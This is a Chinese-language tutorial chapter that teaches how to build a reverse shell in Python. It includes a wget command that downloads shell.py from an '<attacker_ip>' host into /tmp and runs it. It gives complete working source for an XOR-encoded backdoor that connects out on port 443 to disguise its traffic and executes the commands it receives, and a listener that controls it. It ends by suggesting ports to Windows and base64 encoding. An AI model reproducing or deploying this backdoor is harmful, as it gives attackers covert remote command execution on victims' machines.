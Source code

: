 # 反向 shell

## 反向 shell

这篇教程将会教你使用 Python 编写一个反向 shell，首先我们先演示使用 Python 如何利用 web 服务器的功能，把文件从另一台主机传送过来。我们假设你有一台傀儡主机，你现在想下载傀儡机上面的的文件。那么你就可以使用 shell(或 meterpreter)去访问这台傀儡机，你可以通过一行 Python 代码把傀儡机建立成为一个 web 服务器，然后下载傀儡机上面的文件.

创建一个 python HTTP 服务器可以直接使用 python 的内建函数"SimpleHTTPServer"来创建，你可以使用'-m'参数直接在命令行调用模块，创建的服务器默认是监听的 8000 端口，但是你可以指定端口，直接在'SimpleHTTPServer'后面跟一个端口参数:

```py
python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 80 ... 
```

我们假设你没有防火墙去阻止你的连接，那么你是可以请求到这服务器的数据。你可以在任何目录里面去启动 Python HTTP 服务器，这样你就能够通过浏览器或者是远程客户端来访问这个目录。这里有一个简单的例子告诉你使用 wget 工具去获取文件,但是有些时候就会经常发现你根本没有权限在当前目录写入文件并且初始化这个脚本，但是你可以改变脚本执行的目录，下面这个例子就演示了把脚本在/tmp 目录下面执行：

```py
#使用-O 参数，把文件保存在其他目录- /tmp/ 一般可写
wget -O /tmp/shell.py http://<attacker_ip>/shell.py

#修改权限
chmod a+x /tmp/shell.py

# 使用 file 命令检查文件是否正确
file /tmp/shell.py

#执行脚本
/usr/bin/python /tmp/shell.py 
```

现在让我看一个实际的后门代码。我们将会使用 socket，subprocess 和 sys 模块，我非常的喜欢 subprocess 模块因为它允许你能储存 STDOUT 给一个变量，然后在脚本中的其他地方使用，然后新增一个传输层，通过 443 端口来传输文件，这个端口经常用在传输 ssl 的数据可以很容易的混淆数据:

```py
#!/usr/bin/python

import socket,subprocess,sys

RHOST = sys.argv[1]
RPORT = 443
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

while True:
     # 从 socket 中接收 XOR 编码的数据
     data = s.recv(1024)

     # XOR the data again with a '\x41' to get back to normal data
     en_data = bytearray(data)
     for i in range(len(en_data)):
       en_data[i] ^=0x41

     # 执行解码命令，subprocess 模块能够通过 PIPE STDOUT/STDERR/STDIN 把值赋值给一个变量
     comm = subprocess.Popen(str(en_data), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     STDOUT, STDERR = comm.communicate()

     # 输出编码后的数据并且发送给指定的主机 RHOST
     en_STDOUT = bytearray(STDOUT)
     for i in range(len(en_STDOUT)):
       en_STDOUT[i] ^=0x41
     s.send(en_STDOUT)
s.close() 
```

上面的代码中有些概念已经在 0x1 中介绍过了，但是除了之前的使用 socket 创建一个连接之外，我们通过 subprocess 模块执行了一个命令，subprocess 模块非常的方便，它允许你通过 STDOUT/STDERR 命令直接把值赋值给一个变量，然后我们可以通过命令把输出的进行编码然后通过 socket 网络发送出去。使用 OXR 的好处就是你能够很容易编码你要发送过去的数据，然后通过相同的密钥来解码返回的数据，最后解码后的数据可以以明文的形式去执行命令。

现在为了利用好这个后门，我们需要一个监听脚本并且解码后端传输过来的数据，让我们通过明文很清晰的看清楚返回的数据。下面我们将要设计一个监听器。来获取反向 shell 的数据，并且能够对于输入／输出的进行解码/编码，为了能够在终端上面能够很清晰的看出来，所以需要使用 XOR 编码:

```py
import socket 

s= socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(("0.0.0.0", 443))
s.listen(2)
print "Listening on port 443... "
(client, (ip, port)) = s.accept()
print " Received connection from : ", ip

while True:
 command = raw_input('~$ ')
 encode = bytearray(command)
 for i in range(len(encode)):
   encode[i] ^=0x41
 client.send(encode)
 en_data=client.recv(2048)
 decode = bytearray(en_data)
 for i in range(len(decode)):
   decode[i] ^=0x41
 print decode

client.close()
s.close() 
```

这章的例子非常有趣，对于学习信息安全的朋友都喜欢 shell，大家可以对代码做点修改让这个脚本也能够在 window 上面也能够正常运行，最后大家可以使用 base64 来代替 XOR 进行编码与解码，这些练习有助于你更加灵活的使用 python.